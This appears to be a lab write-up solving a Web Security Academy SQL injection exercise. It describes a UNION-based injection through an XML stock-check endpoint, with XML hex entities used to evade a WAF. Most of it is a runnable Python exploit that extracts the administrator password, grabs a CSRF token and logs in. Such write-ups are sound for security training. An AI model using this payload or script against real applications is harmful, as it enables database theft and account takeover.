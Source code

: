 ```yaml
---
title: 'SQLi Lab 18'
description: 'SQL injection with filter bypass via XML encoding to extract admin credentials'
---
```



## SQL injection with filter bypass via XML encoding

<div style="text-align: justify;">
  This lab demonstrates how SQL injection (SQLi) can be performed on a vulnerable stock check feature that accepts XML input. The application returns query results in the response, allowing a `UNION SELECT` attack. A Web Application Firewall (WAF) blocks standard payloads, so XML entities are used to obfuscate the injection and bypass the filter. By determining the query structure and concatenating username and password fields, the administrator credentials can be retrieved and used to log in.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The stock check endpoint (`/product/stock`) accepts XML input with `<productId>` and `<storeId>`.
- Inject mathematical expressions or `UNION SELECT` to test evaluation of input.
- When blocked by WAF, encode payloads using XML entities (e.g., `&#x55;NION` for `UNION`).
- Determine query returns a single column; concatenate username and password for extraction.
- Send encoded payload:
```xml
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities></storeId>
```
- Extract administrator password from the response.
- Log in with administrator credentials to solve the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import sys
import requests
import re
import urllib3

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: Proxy through Burp
proxies = {"http": "http://127.0.0.1:8080",
           "https": "http://127.0.0.1:8080"}


def build_payload() -> str:
    """Return XML payload for UNION-based SQLi to fetch admin password."""
    return """<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        3 
    </productId>
    <storeId>
        1 &#x55;NION &#x53;ELECT password FROM users WHERE username = &#x27;administrator&#x27;
    </storeId>
</stockCheck>"""


def post_data(lab_url: str, path: str, data, cookies=None, headers=None):
    """Send POST request with optional cookies and headers."""
    try:
        return requests.post(f"{lab_url}{path}", data=data, cookies=cookies, headers=headers, 
                             allow_redirects=False, verify=False, proxies=proxies)
    except requests.exceptions.RequestException as e:
        print(f"[-] Failed to post data to {path}: {e}")
        sys.exit(1)


def fetch(lab_url: str, path: str, cookies=None):
    """Send GET request with optional cookies."""
    try:
        return requests.get(f"{lab_url}{path}", cookies=cookies, allow_redirects=False, 
                            verify=False, proxies=proxies)
    except requests.exceptions.RequestException as e:
        print(f"[-] Failed to fetch {path}: {e}")
        sys.exit(1)


def main():
    if len(sys.argv) != 2:
        print("Usage: python xml_union_sqli.py <lab-url>")
        sys.exit(1)

    lab_url = sys.argv[1].rstrip("/")
    print(f"[*] Target Lab: {lab_url}")

    print("[*] Step 1: Injecting payload to retrieve administrator password...")
    payload = build_payload()
    headers = {"Content-Type": "application/xml"}
    injection = post_data(lab_url, "/product/stock", payload, headers=headers)
    print("[+] Payload sent!")

    print("[*] Step 2: Extracting administrator password from response...")
    try:
        # Adjust regex if needed based on lab response
        admin_password = re.findall("\n(.*)", injection.text)[0]
    except IndexError:
        print("[-] Failed to extract password from response")
        sys.exit(1)
    print(f"[+] Administrator password: {admin_password}")

    print("[*] Step 3: Fetching login page...")
    login_page = fetch(lab_url, "/login")
    print("[+] Login page fetched!")

    print("[*] Step 4: Extracting CSRF token and session cookie...")
    session = login_page.cookies.get("session")
    csrf_token_search = re.findall("csrf.+value=\"(.+)\"", login_page.text)
    if not csrf_token_search:
        print("[-] Failed to extract CSRF token")
        sys.exit(1)
    csrf_token = csrf_token_search[0]
    print(f"[+] CSRF token: {csrf_token}")

    print("[*] Step 5: Logging in as administrator...")
    data = {"username": "administrator", "password": admin_password, "csrf": csrf_token}
    cookies = {"session": session}
    admin_login = post_data(lab_url, "/login", data, cookies)
    print("[+] Logged in!")

    print("[*] Step 6: Fetching administrator profile...")
    admin_session = admin_login.cookies.get("session")
    fetch(lab_url, "/my-account", cookies={"session": admin_session})
    print("[+] Administrator profile fetched!")

    print("[*] ✅ Lab should now be marked as solved!")


if __name__ == "__main__":
    main()
```